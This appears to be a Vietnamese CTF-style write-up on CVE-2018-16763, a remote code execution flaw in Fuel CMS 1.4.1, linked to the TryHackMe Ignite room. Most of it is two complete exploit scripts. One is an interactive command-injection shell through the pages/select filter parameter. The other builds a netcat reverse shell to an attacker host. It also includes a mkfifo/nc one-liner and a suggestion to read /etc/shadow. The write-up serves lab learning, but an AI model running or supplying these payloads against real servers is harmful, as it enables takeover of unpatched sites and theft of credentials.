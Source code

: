 # __CVE-2018-16763__

https://www.exploit-db.com/search?cve=2018-16763

---

## __Tổng quan__

CVE này nói về lỗ hỏng của Fuel CMS version 1.4.1 về việc ta có thể chèn và thực thi mã từ xa thông qua parameter của `../pages/select/?filter` có trong phiên bản. Thông qua Exploit-DB hoặc searchsploit trên máy kali, ta sẽ có được 2 file khai thác lỗ hổng là 47138.py và 50477.py 

File 50477.py mô tả trực quan hơn từ việc RCE, 

```python title="50477.py" linenums="1"
# Exploit Title: Fuel CMS 1.4.1 - Remote Code Execution (3)
# Exploit Author: Padsala Trushal
# Date: 2021-11-03
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763

#!/usr/bin/python3

import requests
from urllib.parse import quote
import argparse
import sys
from colorama import Fore, Style

def get_arguments():
        parser = argparse.ArgumentParser(description='fuel cms fuel CMS 1.4.1 - Remote Code Execution Exploit',usage=f'python3 {sys.argv[0]} -u <url>',epilog=f'EXAMPLE - python3 {sys.argv[0]} -u http://10.10.21.74')

        parser.add_argument('-v','--version',action='version',version='1.2',help='show the version of exploit')

        parser.add_argument('-u','--url',metavar='url',dest='url',help='Enter the url')

        args = parser.parse_args()

        if len(sys.argv) <=2:
                parser.print_usage()
                sys.exit()

        return args


args = get_arguments()
url = args.url

if "http" not in url:
        sys.stderr.write("Enter vaild url")
        sys.exit()

try:
   r = requests.get(url)
   if r.status_code == 200:
       print(Style.BRIGHT+Fore.GREEN+"[+]Connecting..."+Style.RESET_ALL)


except requests.ConnectionError:
    print(Style.BRIGHT+Fore.RED+"Can't connect to url"+Style.RESET_ALL)
    sys.exit()

while True:
        cmd = input(Style.BRIGHT+Fore.YELLOW+"Enter Command $"+Style.RESET_ALL)

        main_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+quote(cmd)+"%27%29%2b%27"

        r = requests.get(main_url)

        #<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">

        output = r.text.split('<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">')
        print(output[0])
        if cmd == "exit":
                break
```

Ta thấy source code trên mô tả việc lấy 1 giá trị lệnh từ attacker (biến cmd ở dòng 52) và truyền vào đoạn url để attack, công đoạn tiếp theo là đoạn output dữ liệu từ hệ thống. Vậy từ flow này thì ta sẽ làm gì tiếp theo?

Nếu ta có thể xem được file /etc/shadow thì câu chuyện có thể kết thúc tại đây. Nhưng nếu không xem được thì sao?

Một ý tưởng mới ta có thể tạo reverse shell bằng Netcat OpenBsd và sau đó dùng `python -c import pty;pty.spawn ("/bin/bash")` (nếu có thể) để vào terminal của máy nạn nhân.

*[Netcat OpenBsd]: rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f 

Roài, dựa vào ý tưởng trên, ta sẽ cải tiến đoạn code khai thác trên thành

```python
# Exploit Title: fuel CMS 1.4.1 - Remote Code Execution (1) Updated
# Date 2021-08-16
# Exploit Author: jtaubs1 (ice-wzl)
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763

# Update included: Works with python3
    # Removed burp proxy code to allow it to run as a stand alone RCE exploit. 
    # Takes sys.args
    # Spawns a Reverse shell

#!/usr/bin/python3
import requests
import urllib.parse
import sys


url_victim_machine = sys.argv[1]
attacker_ip = sys.argv[2]
attacker_port = sys.argv[3]

command = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc " 
command += attacker_ip 
command += " "
command += attacker_port
command += ">/tmp/f"

payload = url_victim_machine + "/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.parse.quote(command)+"%27%29%2b%27"
r = requests.get(payload)
print(r)
```

Đoạn code trên có ưu điểm là nó sẽ thực hiện luôn công việc tạo 1 revershell từ máy nạn nhân đến máy chúng ta thông qua lỗ hổng.

## __Challenge__

<div class="grid" markdown>

[__TryHackMe | Ignite__](https://tryhackme.com/room/ignite)
{ .card }
> [__Writeup__](/tryhackme/room/ignite)


</div>
